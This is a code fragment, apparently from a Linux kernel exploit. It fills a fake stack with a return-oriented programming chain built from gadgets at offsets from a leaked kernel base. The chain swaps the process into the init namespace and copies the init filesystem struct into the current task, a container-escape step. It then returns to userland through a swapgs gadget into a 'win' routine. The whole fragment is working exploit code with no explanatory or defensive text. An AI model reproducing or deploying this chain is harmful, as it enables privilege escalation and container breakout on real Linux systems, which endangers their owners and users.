 ```c

		// task = find_task_by_vpid(1)
		*(ul*) &fake_stack[0x10a0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10a8] =  1;
		*(ul*) &fake_stack[0x10b0] = FIND_TASK_BY_VPID +  *kbase;
		  
		// switch_task_namespaces(task, init_nsproxy)
		*(ul*) &fake_stack[0x10b8] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10c0] = (ul) &fake_stack[0x10e8];
		*(ul*) &fake_stack[0x10c8] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x10d0] =  8;
		*(ul*) &fake_stack[0x10d8] = MOV_QWORD_RDI_RAX +  *kbase;
		*(ul*) &fake_stack[0x10e0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10e8] =  0x6969696969696969;
		*(ul*) &fake_stack[0x10f0] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x10f8] = INIT_NSPROXY +  *kbase;
		*(ul*) &fake_stack[0x1100] = SWITCH_TASK_NAMESPACES +  *kbase;

		// new_fs = copy_fs_struct(init_fs)
		*(ul*) &fake_stack[0x1108] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1110] = INIT_FS +  *kbase;
		*(ul*) &fake_stack[0x1118] = COPY_FS_STRUCT +  *kbase;

		// save "somewhere" new_fs
		*(ul*) &fake_stack[0x1120] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1128] = (ul) &fake_stack[0x1f00];
		*(ul*) &fake_stack[0x1130] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1138] =  8;
		*(ul*) &fake_stack[0x1140] = MOV_QWORD_RDI_RAX +  *kbase;

		// task = find_task_by_vpid(getpid())
		*(ul*) &fake_stack[0x1148] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1150] = (ul) parent_child;
		*(ul*) &fake_stack[0x1158] = FIND_TASK_BY_VPID +  *kbase;

		// current->fs = newfs
		*(ul*) &fake_stack[0x1160] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1168] = (ul) &fake_stack[0x11b8];
		*(ul*) &fake_stack[0x1170] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1178] =  8;
		*(ul*) &fake_stack[0x1180] = MOV_QWORD_RDI_RAX +  *kbase;
		*(ul*) &fake_stack[0x1188] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1190] =  0x760;
		*(ul*) &fake_stack[0x1198] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x11a0] = (ul) &fake_stack[0x11b8] -  0x760  -  1;
		*(ul*) &fake_stack[0x11a8] = ADD_DWORD_RSIRDX1_ESI +  *kbase;
		*(ul*) &fake_stack[0x11b0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x11b8] =  0x6969696969696969;
		*(ul*) &fake_stack[0x11c0] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x11c8] = (ul) &fake_stack[0x1f00];
		*(ul*) &fake_stack[0x11d0] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x11d8] =  8;
		*(ul*) &fake_stack[0x11e0] = REP_MOVS_ALTERNATIVE +  *kbase;

		// ret2user
		*(ul*) &fake_stack[0x11e8] = SWAPGS_AND_SHIT +  *kbase;
		*(ul*) &fake_stack[0x11f0] =  0;
		*(ul*) &fake_stack[0x11f8] =  0;
		*(ul*) &fake_stack[0x1200] = (ul) &win;
		*(ul*) &fake_stack[0x1208] =  0x33;
		*(ul*) &fake_stack[0x1210] =  0x206;
		*(ul*) &fake_stack[0x1218] = rsp;
		*(ul*) &fake_stack[0x1220] =  0x2b;
```